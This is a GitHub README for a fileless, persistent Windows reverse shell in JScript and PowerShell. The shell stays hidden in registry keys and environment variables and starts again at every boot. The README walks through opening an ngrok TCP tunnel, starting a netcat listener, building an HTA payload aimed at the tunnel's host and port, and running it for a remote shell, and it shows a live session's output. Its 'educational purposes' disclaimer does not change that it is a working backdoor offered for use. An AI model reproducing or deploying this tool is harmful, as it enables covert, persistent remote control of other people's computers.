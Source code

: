# Living off the land (LOTL) persistent reverse shell for windows
This is a fileless living off the land reverse shell written in JScript and Powershell script. It runs every time the windows boots and relies solely on windows registry and environment variables to execute without creating any files on the system<br>
Disclaimer: this program is only for educational purposes
## Proof of concept
WARNING: Since changing windows registry keys can cause some problems, I really recomment running this program on a virtual machine<br>
download the repository and run POC.hta file on your windows system<br>
Now every time you reboot your windows a messagebox with 'living off the land' message will appear
![alt text](https://github.com/Null-byte-00/LOTL/blob/main/LOTL.png?raw=true)
## Reverse shell
In this case I'm using ngrok to make a tcp tunnel:
```
ngrok tcp 3333
```
then we run netcat to listen on port 3333
```
nc -nvlp 3333
```
### creating payload 
Now we can create out payload with our ngrok tunnel's domain and port 
```
python.exe generator.py 8.tcp.ngrok.io 18053 payload.hta
```
all you have to do now is to run payload.hta in your windows machine and you get a reverse shell
```
┌─[parrot@parrot]─[~]
└──╼ $nc -nvlp 3333
listening on [any] 3333 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50662
> echo hello
hello
> 
```
this reverse shell is persistent meaning every time you boot the windows the payload will execute

